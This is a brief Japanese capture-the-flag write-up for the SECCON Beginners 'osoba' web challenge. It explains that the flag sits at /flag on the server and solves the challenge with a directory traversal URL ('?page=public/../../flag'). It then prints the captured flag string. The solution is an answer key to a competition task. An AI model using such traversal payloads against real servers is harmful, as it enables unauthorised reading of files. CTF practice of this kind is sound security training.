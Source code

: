 ## osoba

### 問題説明
- 美味しいお蕎麦を食べたいですね。フラグはサーバの /flag にあります！
- https://osoba.quals.beginners.seccon.jp/
### 解き方
- ディレクトリトラバーサル攻撃で親階層に上がっていき、/flagを見つける
## 答え
https://osoba.quals.beginners.seccon.jp/?page=public/../../flag

### flag
ctf4b{omisoshiru_oishi_keredomo_tsukuruno_taihen}